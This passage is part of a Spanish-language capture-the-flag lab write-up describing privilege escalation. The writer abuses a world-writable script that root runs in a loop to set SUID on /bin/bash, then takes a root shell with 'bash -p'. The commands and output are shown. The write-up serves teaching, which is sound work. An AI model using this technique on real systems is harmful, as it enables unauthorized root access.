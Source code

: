 Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------

## Escalada de privilegios

En el directorio /home del usuario **hackpenguin**, encontramos un **script.sh**.
Es extraño porque vemos que tiene los permisos **777** y le pertenece a **root**, si conseguimos que root lo ejecute podremos modificarlo y ejecutar lo que queramos.

```shell
ls -l script.sh
------------------------------------------
-rwxrwxrwx 1 root root 56 Apr 15 07:26 script.sh
```

Revisamos los procesos que están corriendo:

```shell
ps -faux
---------------------------
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  6.6  0.0   2892   968 ?        Ss   14:27   0:19 /bin/sh -c service apache2 start && service ssh start && while true; do /bin/bash /home/hackpenguin/script.sh; done
root          25  0.0  0.0   6780  4812 ?        Ss   14:27   0:00 /usr/sbin/apache2 -k start
```

Podemos ver que **root** está ejecutando cada cierto tiempo el script que está dentro del directorio /home de **hackpengui**.

Lo editaremos para que de permiso **SUID** a la bash directamente, y esperaremos a que root lo ejecute.

![Pasted image 20240415143522](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/e5427bfe-aeb5-4b58-81ae-a6556bbdcc7a)

Tras esperar un poco:

```shell
ls -l /bin/bash
----------------
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

Abusamos de esta para escalar privilegios a root:

```shell
bash -p
```

```shell
whoami
--------------
root
```

Hemos conseguido el nivel de privilegios máximo!
